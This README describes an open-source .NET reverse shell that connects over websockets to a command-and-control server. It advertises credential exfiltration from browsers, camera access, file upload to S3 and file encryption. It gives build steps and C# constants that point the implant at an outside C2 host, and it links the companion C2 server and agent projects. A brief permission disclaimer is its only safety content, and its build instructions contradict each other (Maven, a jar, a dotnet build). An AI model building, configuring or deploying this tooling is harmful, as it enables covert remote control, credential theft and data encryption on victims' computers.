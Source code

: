 # .NET Reverse Shell with Websockets

This .NET project implements a reverse shell that connects to a command and control server using websockets.

## Features

- Upload Files to S3 bucket
- Play rick roll on target computer
- Access camera 
- Exfilterte Browser Credentials
- Encrypt Files

## Table of Contents

- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Security Considerations](#security-considerations)
- [C2 Components](#C2-Components)
- [Contributing](#contributing)

## Prerequisites

Before you begin, ensure you have the following prerequisites:

- Visual Studio Installed

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/The-Hustler-Hattab/WebSocketReverseShellDotNet.git
    ```

2. Navigate to the project folder:

    ```bash
    cd WebSocketReverseShellDotNet
    ```

3. Build the project using Maven:

    ```bash
    dotnet build
    ```

## Usage
The project will generate jar with dependencies and exe file.
To use the reverse shell, click on the exe file. The reverse shell will connect to the command and control server and wait for commands.

## Configuration
Configure the reverse shell by editing the utils/constants file. Update the following properties:
```C#
        public const String SERVER_WEBSOCKET_URI = "wss://c2-server.mtattab.com/reverseShellClients";
        public const String SERVER_HTTP_URI = "https://c2-server.mtattab.com";
```


## Security Considerations
Ensure that you have permission to run the reverse shell on the target system.
Use secure connections (e.g., HTTPS) for the command and control server.
Implement additional security measures as needed for your specific use case.

## C2-Components

[C2 UI](https://github.com/The-Hustler-Hattab/c2-ui)  
[C2 Server](https://github.com/The-Hustler-Hattab/C2JavaServer)   
[C2 Java Agent](https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent)  
[C2 .NET Agent](https://github.com/The-Hustler-Hattab/WebSocketReverseShellDotNet)  

## Contributing
Contributions are welcome! 
Please make a pull request for new features